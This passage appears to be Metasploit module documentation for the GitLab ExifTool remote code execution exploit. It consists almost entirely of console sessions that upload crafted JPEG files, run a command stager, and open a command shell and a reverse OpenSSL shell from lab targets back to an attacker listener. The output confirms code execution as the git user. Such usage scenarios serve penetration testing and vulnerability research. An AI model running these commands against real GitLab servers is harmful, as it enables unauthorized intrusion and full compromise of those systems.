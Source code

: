 ```
[*] Uploading uOQXfShf.jpg to /0vHnowZA8ftJ
[+] Exploit successfully executed.
[*] Command Stager progress -  35.40% done (285/805 bytes)
[*] Uploading Ov2VCdIih.jpg to /NefATU
[+] Exploit successfully executed.
[*] Command Stager progress -  53.04% done (427/805 bytes)
[*] Uploading lYJsr5whY.jpg to /TOLaoA1q
[+] Exploit successfully executed.
[*] Command Stager progress -  70.68% done (569/805 bytes)
[*] Uploading MwuCYLqHh.jpg to /lMTzzMxXjFye
[+] Exploit successfully executed.
[*] Command Stager progress -  88.20% done (710/805 bytes)
[*] Uploading dkp8oskGlDJI.jpg to /VglvVbpx
[*] Sending stage (36 bytes) to 10.0.0.7
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (805/805 bytes)
[*] Command shell session 1 opened (10.0.0.9:4444 -> 10.0.0.7:48694 ) at 2021-11-03 08:34:02 -0700

id
uid=973(git) gid=972(git) groups=972(git) context=system_u:system_r:unconfined_service_t:s0
whoami
git
```

### GitLab 13.10.2 on Ubuntu 20.04.2 x64. Get reverse shell.

```
msf > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.3
RHOST => 10.0.0.3
msf exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading bSjUnQsE.jpg to /Da8eKs2
[+] 10.0.0.3:80 - The target is vulnerable. The error response indicates ExifTool was executed.
msf exploit(multi/http/gitlab_exif_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix Command
   1   Linux Dropper


msf exploit(multi/http/gitlab_exif_rce) > set target 0
target => 0
msf exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse double SSL handler on 10.0.0.9:4444
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Uploading 1SynV6Z.jpg to /9v3LPsOOBuH
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo tZscWcue53S3jgeY;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "tZscWcue53S3jgeY\n"
```